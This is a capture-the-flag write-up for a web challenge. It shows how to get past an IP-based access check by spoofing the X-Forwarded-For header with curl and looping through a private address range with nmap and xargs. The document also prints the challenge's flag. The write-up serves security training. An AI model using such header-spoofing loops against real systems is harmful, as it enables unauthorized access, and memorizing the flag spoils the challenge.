 # Component replacement (3 points)

Ahoy, officer,

the ship had to lower its speed because of broken `fuel efficiency enhancer`. To order a correct spare part, the chief
engineer needs to know exact identification code of the spare part. However, he cannot access the web page listing all
the key components in use. Maybe the problem has to do with recently readdressing of the computers in the engine room -
the old address plan for whole ship was based on range `192.168.96.0/20`. Your task is to find out the identification
code of the broken component.

May you have fair winds and following seas!

The webpage with spare parts listing is available at http://key-parts-list.cns-jv.tcc.

## Hints

* Use VPN to get access to the webpage.
* Try to bypass the IP address filter.

## Solution

If we try to access the website we get an error indicating, that the access is only allowed from the engine room.

```console
$ curl key-parts-list.cns-jv.tcc
You are attempting to access from the IP address 10.200.0.20, which is not assigned to engine room. Access denied.
```

If we ~~research~~ Google common methods of identifying client's IP address from an HTTP request we'll come across
`X-Forwarded-For` header. Let's try using it:

```console
$ curl -H "X-Forwarded-For: 192.168.96.1" key-parts-list.cns-jv.tcc
You are attempting to access from the IP address 192.168.96.1, which is not assigned to engine room. Access denied.
```

Good news is that it's really the spoofed address from the request that is being validated. Bad news is, that it's still
not the correct one. Let's try enumerating the whole range, e.g. using `nmap` to just convert CIDR notation to actual
list of IPs and then looping through them and trying to execute HTTP request with a spoofed `X-Forwarded-For` header.

```console
$ nmap -sL -n 192.168.96.0/20 | awk '/Nmap scan report/{print $NF}' | xargs -I {} curl -s -H "X-Forwarded-For: {}" key-parts-list.cns-jv.tcc | grep FLAG
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
Fuel efficiency enhancer;FLAG{MN9o-V8Py-mSZV-JkRz};0
... (output truncated) ...
```

We see that there are multiple IP addresses that can retrieve the replacement part list, so we can stop the scan once
a line with the flag appears.
